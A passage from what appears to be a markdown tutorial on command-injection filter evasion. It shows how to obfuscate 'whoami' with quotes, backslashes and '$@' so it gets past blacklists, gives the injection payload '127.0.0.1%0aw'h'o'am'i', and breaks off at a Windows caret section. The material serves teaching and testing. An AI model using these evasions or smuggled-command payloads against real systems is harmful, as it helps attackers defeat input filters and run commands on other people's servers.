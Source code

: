 - This blocks exact matches (e.g., `whoami`)
- Partial or obfuscated versions may slip through
## Obfuscation Techniques

Obfuscation involves modifying a command's appearance so it's not matched literally, while still being valid to the shell.
### 1. Inserting Quotes (`'` or `"`)

Quotes are ignored by most shells if used consistently.

#### Linux & Windows Example

```bash
w'h'o'am'i
```

or

```bash
w"h"o"am"i
```

Constraints:

- Use only one type of quote per command
- Must be an even number of quotes

✅ Works on Linux and Windows (CMD & PowerShell)

Payload Example:

```
127.0.0.1%0aw'h'o'am'i
```

✅ Returns correct output, bypassing blacklist
### 2. Using Backslash (`\`) — Linux Only

The backslash acts as an escape character but is ignored if not followed by special characters.

```bash
w\ho\am\i
```

✅ Successfully executes `whoami`
### 3. Using `$@` — Linux Only

`$@` is a positional parameter in bash, but is ignored if not used in a command expecting arguments.

```bash
who$@ami
```

✅ Also runs `whoami` unchanged
### 4. Using Caret (`^`) — Windows Only
